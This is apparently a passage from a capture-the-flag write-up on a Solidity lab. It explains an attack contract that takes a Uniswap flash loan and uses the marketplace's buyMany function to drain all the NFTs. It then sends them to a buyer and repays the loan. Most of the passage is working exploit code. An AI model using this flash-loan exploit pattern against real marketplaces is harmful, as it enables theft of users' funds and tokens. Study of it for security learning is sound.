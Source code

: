 All we need to take is 15 ether, as it's all needed to take all the NFTs from the marketplace.

After withdrawing the ether, I create an array of integers with all the token IDs for the NFTs we want to buy. I defined this function to generate a dynamic array of integers with values from 0 to `size`:

```cs
function arrayOfIntegers(uint256 size) private returns (uint256[] memory) {
    uint256[] memory uintArray = new uint256[](size);
    for (uint256 i = 0; i < size; i++) {
        uintArray[i] = i;
    }
    return uintArray;
}
```

I'm sure there's much better ways to do this, but here we are. Anyway, With this function I generate the array:

```cs
uint256 amountOfOffers = marketplace.amountOfOffers();
uint256[] memory tokenIdsArray = arrayOfIntegers(amountOfOffers);
```

Which must be passed to the marketplace's `buyMany()` function along with the 15 ether:

```cs
marketplace.buyMany{value: amount}(tokenIdsArray);
```

Then the NFTs must be transferred to the buyer, so we loop over token IDs and perform a `safeTransferFrom()`, I coded a short function for this to keep `uniswapV2Call()` cleaner:

```cs
function bulkSafeTransferNFT(uint256[] memory tokenIds) private {
    for (uint256 i = 0; i < tokenIds.length; i++) {
        nft.safeTransferFrom(address(this), address(buyer), tokenIds[i]);
    }
}
```

Then I call this function to send the corresponding purchased tokens to the buyer, so the attacker can get the payment for them:

```cs
bulkSafeTransferNFT(tokenIdsArray);
```

Then the amount to repay has to be computed, as there's a 0.3% fee on top of the loan taken from Uniswap:

```cs
uint256 amountToRepay = amount + (((amount*3)/997)+1);
```

Then the loan can be repayed depositing the ETH to get WETH and transferring the WETH back into the pair address:

```cs
weth.functionCallWithValue(abi.encodeWithSignature("deposit()"), amountToRepay);
IERC20(weth).transfer(address(pair), amountToRepay);
```
